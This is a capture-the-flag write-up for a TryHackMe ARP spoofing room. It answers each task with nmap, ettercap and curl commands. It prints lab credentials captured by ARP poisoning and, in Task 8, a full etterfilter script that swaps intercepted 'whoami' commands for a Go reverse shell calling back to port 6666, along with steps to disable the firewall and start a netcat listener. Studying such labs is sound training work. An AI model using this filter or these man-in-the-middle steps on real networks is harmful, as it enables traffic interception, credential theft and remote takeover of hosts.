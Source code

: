 # L2-MAC-Flooding-ARP-Spoofing
 <b> Tryhackme  L2 MAC Flooding &amp; ARP Spoofing writeup </b>
  
 <b> TASK 2 </b> <br>
  <b> Note The admin user is in the sudo group. I suggest using the root user to complete this room <br>
      sudo su (password : Layer2)</b><br>
  
  Q.1    Now, can you (re)gain access?(Yay/Nay).<br>
  Ans.   Yea <br>
  <b>TASK 3 </b><br>
  Q. 1 What is your IP address? <br>
  <b>  ip address show eth1 </b><br>
  Ans. 192.168.12.66 <br>
  <img src="nmap_task.png"><br>
  Q. 2 What's the network's CIDR prefix? <br>
  Ans. /24  <br>
  Q. 4 How many other live hosts are there? <br>
  <b>  nmap -sn 192.168.12.66/24 </b> <br>
  Ans. 2 <br>
  Q. 5 What's the hostname of the first host (lowest IP address) you've found? <br>
  Ans. alice <br>
   <b>TASK 4 </b> <br>
  Q. 1 Can you see any traffic from those hosts? (Yay/Nay) <br>
  Ans. yea <br>
  Q. 2 Who keeps sending packets to eve? <br>
  Ans. bob <br>
  Q. 3 What type of packets are sent? <br>
  Ans. icmp <br>
    <b>hint</b> for Q 3 & 4 see fig <br>
    <img src="task4.png" alt="tcpdump.pcap"><br>
  Q. 4 What's the size of their data section? (bytes) <br>
  Ans. 666 <br>
   <b> TASK 5 </b><br>
  Q. 1 What kind of packets is Alice continuously sending to Bob?  <br>
  Ans. icmp <br>
  Q. 2 What's the size of their data section? (bytes) <br>
  Ans. 1337           (same as Q 3 & 4 in task 4)<br> 
  <b>Task 6 </b><br>
  Q.1 Can ettercap establish a MITM in between Alice and Bob? (Yay/Nay) <br>
  Ans. nay <br>
  Q. 2 Would you expect a different result when attacking hosts without ARP packet validation enabled? (Yay/Na<br>
  Ans. yay <br>
   <b> TASk 7</b> <br>
    <b> Note : Use root user <br>
       sudo su   (password : Layer2) </b><br>
   Q. 1 Scan the network on eth1. Who's there? Enter their IP addresses in ascending order. <br>
   <b>nmap 192.168.12.0/24</b><br>
   Ans. 192.168.12.10, 192.168.12.20 <br>
    <img src="nmap_task7.png" alt="nmap 192.168.12.66/24"><br>
   Q. 2 Which machine has an open well-known port? <br>
   Ans. 192.168.12.20 <br>
   Q. 3 What is the port number? <br>
   Ans. 80 <br>
   Q. 4 Can you access the content behind the service from your current position? (Nay/Yay) <br>
   Ans. Nay <br>
   Q. 5 Can you see any meaningful traffic to or from that port passively sniffing on you interface eth1? (Nay/Yay) <br>
   Ans. Nay <br>
   Q. 6 Now launch the same ARP spoofing attack as in the previous task. Can you see some interesting traffic, now? (Nay/Yay) <br>
   Ans. Yay <br>
     To launch arp attack<b> ettercap -T -i eth1 -M arp</b><br>
     ettercap -T -i eth1 -M arp > myarp.txt  (read carefully Q 7,89,11,17 Ans found in myarp.txt)<br>
   Q. 7 Who is using that service? <br>
   Ans. alice <br>
   Q. 8 What's the hostname the requests are sent to? <br>
   Ans www.server.bob <br>
   <img src="task7_Q8.png" alt=""><br>
   Q. 9 Which file is being requested? <br>
   Ans. test.txt <br>
   Q. 10 What text is in the file?<br>
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/test.txt</b><br>
   Ans ok <br>
    <img src="task7 _Q10.png"><br>
   Q. 11 Which credentials are being used for authentication? (username:password) <br>
   Ans. admin:s3cr3t_P4zz <br>
   Q. 12 Now, stop the attack (by pressing q). What is ettercap doing in order to leave its man-in-the-middle position gracefully and undo the poisoning? <br>
   Ans. RE-ARPing the victims <br>
   Q. 13 Can you access the content behind that service, now, using the obtained credentials? (Nay/Yay) <br>
   Ans. Yay <br>
   Q. 14 What is the user.txt flag? <br>
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/user.txt </b><br>
   Ans. THM{..........}  <br>
   Q. 15 You should also have seen some  rather questionable kind of traffic. What kind of remote access (shell) does Alice have on the server? <br>
   Ans. reverse shell <br>
   Q. 16 What commands are being executed? Answer in the order they are being executed.<br>
   Ans. whoami, pwd, ls <br>
   <img src="command.png"><br>
   Q.17 Which of the listed files do you want? <br>
   Ans. root.txt <br>
   <img src="last_q.png"><br>
   <b>TASK 8 </b> <br>
   Q. 1 What is the root.txt flag? <br>
   Ans.  THM{........} <br>  
    <b> Read carefully each and every line in Task 8 module L2 MAC Flooding & ARP Spoofing on tryhackme</b><br>
    <b>Follow steps to find root flag</b><br>
    hint: follow these steps on ssh machine not on your local machine<br>
     step 1. copy and save in a whoami.ecf file  <br><br>
     note: if this payload not work download whoami.ecf file from repo <a href="whoami.ecf">Download</a><br>
     <b> 
   if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );
    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");
}
    </b><br>
    
 
 step 2. compile source code with etterfilter<br>
  <b>etterfilter whoami.ecf -o whoami.ef</b><br>
  step 3. Disable firewall <br>
    <b>sudo ufw disable  (password: Layer2)</b><br>
  step 4. open one another ssh session and start netcat listener<br>
  hint: use same port in source code and netcat listener<br>
  <b>nc -nvlp 6666 & </b><br>
  step 5. Run ettercap <br>
  <b>sudo ettercap -T -i eth1 -M arp -F whoami.ef </b><br><br>
  A few seconds after executing this command, you should see  "Connection received on 192.168.12.20 " on netcat listerer<br>
  step 6. on netcat listener type "fg" to foreground listener<br>
  
  Enjoy revershell
  
  <img src="root_flag.png"><br>
  
      
      
      
      
      
      Thank you 
      this is my first writeup, if i made any mistake foregive me.
      if you have any questions connect with me on LinkedIn.(use tryhackme to get my LinkedIn Id).
      
      
      Ajeet Kumar
   
   
